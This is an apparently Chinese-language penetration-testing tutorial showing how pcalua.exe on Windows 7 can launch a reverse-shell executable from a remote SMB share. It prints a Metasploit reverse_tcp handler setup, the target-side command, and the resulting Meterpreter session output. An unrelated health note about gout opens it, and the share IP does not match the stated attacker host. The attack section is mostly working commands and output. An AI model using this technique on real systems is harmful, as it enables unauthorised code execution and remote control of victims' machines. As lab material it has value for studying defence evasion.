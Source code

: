 **注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

### Pcalua简介：

Windows进程兼容性助理(Program Compatibility Assistant)的一个组件。

**说明：**Pcalua.exe所在路径已被系统添加PATH环境变量中，因此，Pcalua命令可识别

Windows 7 默认位置：  
```bash
C:\Windows\System32\pcalua.exe
```

**攻击机：** 192.168.1.4 Debian  
**靶机：** 192.168.1.5 Windows 7  

### 配置攻击机msf：
```bash
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 

Payload options (windows/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)

LHOST 192.168.1.4 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port

Exploit target: 

Id Name
‐‐ ‐‐‐‐
0 Wildcard Target 

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53 
```
![](media/13ed50e69746598b03e25538d5ce8f0e.jpg)


### 靶机执行：

```bash
Pcalua -m -a \\192.168.1.119\share\rev_x86_53_exe.exe
```
![](media/812c8fdac52fcd263438540c02c72205.jpg)

```bash
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53
[*] Sending stage (179779 bytes) to 192.168.1.5
[*] Meterpreter session 23 opened (192.168.1.4:53 ‐> 192.168.1.5:11349)
at 2019‐01‐20 09:25:01 ‐0500
meterpreter > getuid
Server username: John‐PC\John
meterpreter > getpid
Current pid: 11236
meterpreter > 
```

![](media/245a3a34008b549f40544d7438828123.jpg)

>   Micropoor
